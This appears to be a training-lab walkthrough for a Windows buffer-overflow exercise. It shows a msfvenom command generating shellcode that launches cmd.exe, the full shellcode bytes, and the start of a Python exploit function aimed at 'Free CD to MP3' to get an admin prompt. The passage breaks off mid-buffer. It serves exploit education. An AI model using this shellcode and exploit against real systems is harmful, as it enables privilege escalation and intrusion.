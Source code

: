 # Jumping to Shellcode

## Question 1

### "In the 'Documents' folder you will find a shortcut that runs the 'Free CD to MP3' program as admin. Try to use the exploit on it to get a command prompt as the admin user, and read the flag in the admin's Desktop."

Students first need to create the shellcode that will open up the Windows `CMD` using `msfvenom` with the `-p` and `-f` options and the `CMD` variable:

Code: shell

```shell
msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python'
```

```
┌─[us-academy-1]─[10.10.14.215]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ msfvenom -p 'windows/exec' CMD='cmd.exe' -f 'python'

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 192 bytes
Final size of python file: 944 bytes
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
buf += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
buf += b"\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
buf += b"\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
buf += b"\xff\xd5\x63\x6d\x64\x2e\x65\x78\x65\x00"
```

Once the shellcode has been generated, students now need to update their Python script by adding a new function "exploit()":

Code: python

```python
from struct import pack
def exploit():
    buf =  b""
    buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
    buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
    buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
    buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
    buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
    buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
    buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
    buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
    buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
    buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
    buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
```